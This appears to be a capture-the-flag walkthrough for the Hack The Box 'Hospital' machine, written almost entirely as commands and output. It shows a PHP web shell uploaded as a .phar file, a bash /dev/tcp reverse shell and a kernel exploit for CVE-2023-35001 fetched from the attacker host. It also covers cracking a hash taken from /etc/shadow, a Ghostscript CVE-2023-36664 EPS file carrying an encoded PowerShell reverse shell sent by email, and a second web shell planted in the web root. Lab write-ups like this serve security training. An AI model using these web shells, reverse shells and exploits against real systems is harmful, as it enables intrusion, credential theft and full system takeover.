



# Target
| Category          | Details                                                                                                                                                     |
|-------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 📝 **Name**       | [Hospital](https://app.hackthebox.com/machines/Hospital)                                                                                                    |  
| 🏷 **Type**       | HTB Machine                                                                                                                                                 |
| 🖥 **OS**         | Windows                                                                                                                                                     |
| 🎯 **Difficulty** | Medium                                                                                                                                                      |
| 📁 **Tags**       | arbitrary file upload, [CVE-2023-35001](https://nvd.nist.gov/vuln/detail/CVE-2023-35001), [CVE-2023-36664](https://nvd.nist.gov/vuln/detail/CVE-2023-36664) |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Hospital]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-21 06:57 +0200
Nmap scan report for 10.129.2.41
Host is up (0.025s latency).
Not shown: 65506 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-05-21 11:59:14Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2026-05-20T11:55:10
|_Not valid after:  2026-11-19T11:55:10
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2026-05-21T12:00:09+00:00
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
6041/tcp open  msrpc             Microsoft Windows RPC
6404/tcp open  msrpc             Microsoft Windows RPC
6406/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp open  msrpc             Microsoft Windows RPC
6409/tcp open  msrpc             Microsoft Windows RPC
6615/tcp open  msrpc             Microsoft Windows RPC
6632/tcp open  msrpc             Microsoft Windows RPC
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
|_http-server-header: Apache/2.4.55 (Ubuntu)
| http-title: Login
|_Requested resource was login.php
|_http-open-proxy: Proxy might be redirecting requests
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
9389/tcp open  mc-nmf            .NET Message Framing
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2026-05-21T12:00:09
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 208.42 seconds
```

#### Add `dc.hospital.htb` and `hospital.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Hospital]
└─$ echo "$TARGET dc.hospital.htb hospital.htb" | sudo tee -a /etc/hosts
10.129.2.41 dc.hospital.htb hospital.htb
```

#### Register user at `http://hospital.htb:8080` and analyze it with Burp Suite
```
curl -s -c cookies.txt http://hospital.htb:8080/register.php -d 'username=john&password=password&confirm_password=password' -o /dev/null
curl -L -b cookies.txt http://hospital.htb:8080/login.php -d 'username=john&password=password' -o /dev/null 
```
Analysis shows that we are able to upload `.phar` file as medical records image and most system command execution function are disabled, however `popen` is still usable.

#### Prepare, upload and test `cmd.phar`
```
┌──(magicrc㉿perun)-[~/attack/HTB Hospital]
└─$ echo '<?php $f = popen($_GET["cmd"], "r"); echo fread($f, 4096); pclose($f); ?>' > cmd.phar && \
curl -s -b cookies.txt http://hospital.htb:8080/upload.php -F image=@cmd.phar -o /dev/null && \
curl -b cookies.txt http://hospital.htb:8080/uploads/cmd.phar?cmd=whoami
www-data
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Hospital]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

#### Use `cmd.phar` to spawn reverse shell connection
`nmap` scan shows `Apache/2.4.55 (Ubuntu)` running on port 8080 (most probably Linux virtual machine hosted on Windows).
```
┌──(magicrc㉿perun)-[~/attack/HTB Hospital]
└─$ COMMAND=$(echo "/bin/bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'" | jq -sRr @uri)
curl "http://hospital.htb:8080/uploads/cmd.phar?cmd=$COMMAND"
```

#### Confirm foothold gained
```
Gconnect to [10.10.14.69] from (UNKNOWN) [10.129.2.41] 6514
bash: cannot set terminal process group (978): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Check version of kernel
```
www-data@webserver:/$ uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```
With simple [query](https://www.google.com/search?q=5.19.0-35-generic) we were able to find that this version of kernel is vulnereable to [CVE-2023-35001](https://nvd.nist.gov/vuln/detail/CVE-2023-35001).

#### Prepare [CVE-2023-35001](https://nvd.nist.gov/vuln/detail/CVE-2023-35001) exploit and host binaries over HTTP
[synacktiv/CVE-2023-35001](https://github.com/synacktiv/CVE-2023-35001) has been used.
```
┌──(magicrc㉿perun)-[~/attack/HTB Hospital]
└─$ git clone -q https://github.com/synacktiv/CVE-2023-35001 && cd CVE-2023-35001 && make && python3 -m http.server 80
go build
# exploit
/usr/bin/ld: error in /usr/lib/gcc/x86_64-linux-gnu/14/../../../x86_64-linux-gnu/crt1.o(.sframe); no .sframe will be created
gcc -Wall -Wextra -Werror -std=c99 -Os -g0 -D_GNU_SOURCE -D_DEFAULT_SOURCE -D_POSIX_C_SOURCE=200809L src/wrapper.c -o wrapper
/usr/bin/ld: error in /usr/lib/gcc/x86_64-linux-gnu/14/../../../x86_64-linux-gnu/Scrt1.o(.sframe); no .sframe will be created
zip lpe.zip exploit wrapper
  adding: exploit (deflated 43%)
  adding: wrapper (deflated 83%)
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

#### Exploit [CVE-2023-35001](https://nvd.nist.gov/vuln/detail/CVE-2023-35001) to escalate to root
```
www-data@webserver:/$ wget -q -P /tmp http://10.10.14.69/exploit && wget -q -P /tmp http://10.10.14.69/wrapper && \
> chmod +x /tmp/exploit && chmod +x /tmp/wrapper && /tmp/exploit
[+] Using config: 5.19.0-35-generic
[+] Recovering module base
[+] Module base: 0xffffffffc04f2000
[+] Recovering kernel base
[+] Kernel base: 0xffffffff88200000
[+] Got root !!!
# id
uid=0(root) gid=0(root) groups=0(root) 
```

#### Read `/etc/shadow`
```
# cat /etc/shadow
<SNIP>
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
<SNIP>
```

#### Use `hashcat` to break password hash for user `drwilliams`
```
┌──(magicrc㉿perun)-[~/attack/HTB Hospital]
└─$ hashcat -m 1800 '$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/' /usr/share/wordlists/rockyou.txt --quiet 
$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:qwe123!@#
```

#### Check if password is resued for Windows host
```
┌──(magicrc㉿perun)-[~/attack/HTB Hospital]
└─$ netexec smb hospital.htb -u drwilliams -p 'qwe123!@#'
SMB         10.129.2.41     445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         10.129.2.41     445    DC               [+] hospital.htb\drwilliams:qwe123!@#
```
Password is reused, however user `drwilliams` does not have remote access permissions. There is another web application running on the target on port 443, this time on the Windows host (`Apache httpd 2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28`). This application turns out to be Roundcube Webmail. Let's pivot towards it.

#### Reuse `drwilliams:qwe123!@#` to access Roundcube Webmail


#### Read email from `drbrown@hospital.htb`


Email states, that design in `.eps` format should be provided. 
> Please make the design in an ".eps" file format so that it can be well visualized with GhostScript.

This could be a hint to provide malicious version of `.eps` file that would be open by `drbrown`. There is known [CVE-2023-36664](https://nvd.nist.gov/vuln/detail/CVE-2023-36664) vulnerability in Artifex Ghostscript, we could try to exploit it.

#### Prepare `malicious.eps` to spawn reverse shell using powershell
```
┌──(magicrc㉿perun)-[~/attack/HTB Hospital]
└─$ git clone -q https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection CVE-2023-36664 && \
python3 ./CVE-2023-36664/CVE_2023_36664_exploit.py --generate --payload "cmd /c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANgA5ACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==" --filename malicious --extension eps
[+] Generated EPS payload file: malicious.eps
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Hospital]
└─$ nc -lvnp 4444                                        
listening on [any] 4444 ...
```

#### Send `malicious.eps` as attachment in email to `drbrown@hospital.htb`


#### Confirm foothold gain on Windows host
```
connect to [10.10.14.69] from (UNKNOWN) [10.129.2.41] 31652
whoami
hospital\drbrown
PS C:\Users\drbrown.HOSPITAL\Documents>
```

#### Capture user flag
```
PS C:\Users\drbrown.HOSPITAL\Documents> cat C:\Users\drbrown.HOSPITAL\Desktop\user.txt
ebcc6241c2fb367c055f29eeec710cf7
```

### Root flag

#### Discover write permissions to `C:\xampp`
Permissions discovered with `winpeas`.
```
╔══════════╣ Installed Applications --Via Program Files/Uninstall registry--
╚ Check if you can modify installed software https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#applications
<SNIP>>
    C:\xampp(Users [Allow: AppendData/CreateDirectories WriteData/CreateFiles])
```
With write permissions to `C:\xampp` and Apache HTTP server running as `SYSTEM` we could easily escalate. 

#### Create `cmd.php` in `C:\xampp\htdocs`
```
PS C:\Users\drbrown.HOSPITAL\Documents> [System.IO.File]::WriteAllText("C:\xampp\htdocs\cmd.php", '<?php system($_GET["cmd"]); ?>')
```

#### Capture root flag
```
┌──(magicrc㉿perun)-[~/attack/HTB Hospital]
└─$ curl -k 'https://hospital.htb/cmd.php?cmd=type%20C:\Users\Administrator\Desktop\root.txt'
2c42b1f529209467b58aff7ab8991cd2
```
